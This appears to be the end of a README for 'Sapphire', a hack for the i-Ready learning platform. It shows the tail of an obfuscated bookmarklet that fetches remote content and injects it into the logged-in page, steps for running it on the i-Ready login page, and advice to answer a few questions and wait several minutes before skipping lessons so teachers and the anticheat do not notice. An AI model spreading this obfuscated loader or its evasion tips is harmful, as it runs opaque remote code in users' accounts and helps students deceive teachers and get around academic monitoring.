2[104%3EgqsYGxv%3F104%3CgqsYGxv%3FgqsYGxv-0:74%3CgqsYGxv%3F74%3CgqsYGxv%3F104%3CgqsYGxv%3FgqsYGxv-96:104%3CgqsYGxv%3FgqsYGxv+57:74%3EgqsYGxv%3FgqsYGxv-92:gqsYGxv-75:gqsYGxv+2:gqsYGxv+84:gqsYGxv-27]}var%20G50XPAt;return%20G50XPAt=fRPLwmU(wodfbG4(-76)),location[fRPLwmU(yJbuoe4(87))]=G50XPAt,cOjySPZ(-604)(fRPLwmU(13))}let%20E3N75UI=(cOjySPZ(-wodfbG4(-69))[fRPLwmU(14)](fRPLwmU(u457kSb(111))),await(await%20cOjySPZ(wodfbG4(-68))(cIgtvcT[u457kSb(98)]))[D_xE7rG.jBJTpl]());E3N75UI=E3N75UI[l3yV9zv](/%3C\/body%3E/,EkeB8w),cOjySPZ(-57)[fRPLwmU.apply(wodfbG4(-81),[wodfbG4(-73)])][fRPLwmU(21)+wodfbG4(-67)][fRPLwmU(14)](E3N75UI),!cOjySPZ(-wodfbG4(-71))[fRPLwmU(wodfbG4(-73))][gqsYGxv[0]][fRPLwmU(23)]({},%22%22,fRPLwmU(24)+fRPLwmU(25)+gqsYGxv[u457kSb(102)]+gqsYGxv[2])})(),!VJ3Wito(cOjySPZ,wodfbG4(-83))}();</code></pre>
    </li>
    <li>Save the bookmark, you can name it anything you want or you can choose to make it blank.</li>
    <li>Go to <a href="https://login.i-ready.com/login">https://login.i-ready.com/login</a> after you have logged onto your account and run the bookmark.</li>
    <li>Now, Sapphire should have loaded.</li>
</ol>

> [!CAUTION]
This hack has a chance of getting your account banned from i-Ready, in order to avoid this ban you must answer a minimum of 4-6 questions and spend 5+ minutes on the lesson before skipping, teachers can also see how long you spend on a lesson so it's recommended you spend a decent amount of time before skipping regardless of the anticheat.

<h2 align="center">Discord</h2>
<h4 align="center">
    Join the <a href="https://discord.gg/edgM4MuT6E">Discord</a> for additional support with the hack, or to ask any questions you may have.
</h4>

